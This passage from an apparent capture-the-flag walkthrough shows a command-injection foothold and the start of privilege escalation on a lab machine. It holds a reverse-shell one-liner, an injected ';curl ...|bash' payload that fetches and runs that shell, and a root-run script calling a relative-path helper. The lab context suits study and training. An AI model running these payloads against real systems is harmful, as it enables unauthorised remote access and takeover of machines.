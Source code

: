 So I tried it through curl instead. I created a file named revSh.sh with this in it:
`bash -i >& /dev/tcp/10.10.10.232/2222 0>&1`

Then I ran `nc -lvnp 2222` in a different terminal, and then I ran:
`;curl 'http://10.10.14.232:8001/revSh.sh'|bash` in the post request. And voila I have a reverse shell.

# Foothold

For pretty shell:
```
script /dev/null -qc /bin/bash
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

Now I can run `find -name '*user.txt' 2>/dev/null` 

Looks like its here: ./home/dvir/user.txt

Now for privesc.

Lets try `find -name '*.db' 2>/dev/null`

Lots of dbs but none that jump out at me.

Lets try `sudo -l`

I see this:
`(ALL) NOPASSWD: /usr/bin/syscheck`


Which looks like:
``` bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```
